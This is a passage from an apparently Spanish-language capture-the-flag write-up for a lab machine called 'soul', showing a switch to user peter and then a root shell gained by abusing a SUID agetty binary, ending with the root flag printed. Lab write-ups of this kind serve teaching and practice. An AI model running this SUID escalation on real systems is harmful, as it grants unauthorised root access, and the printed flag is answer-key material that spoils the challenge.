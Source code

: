 ```
peter@soul:/home/gabriel$ whoami
peter
```

Veremos que con eso seremos dicho usuario.

## Escalate Privileges

Recordemos que antes vimos los permisos `SUID` que no podiamos ejecutar, pero ahora somos el usuario `peter` y si podemos ejecutarlo con el, por lo que ejecutaremos lo siguiente para ser `root`.

```shell
/usr/sbin/agetty -o -p -l /bin/bash -a root tty
```

Info:

```
Debian GNU/Linux 10 soul tty

soul login: root (automatic login)

bash-5.0# whoami
root
```

Y con esto veremos que ya seremos `root` por lo que leeremos la `flag` de `root`.

> rootflag.txt

```
HMVohmygod
```
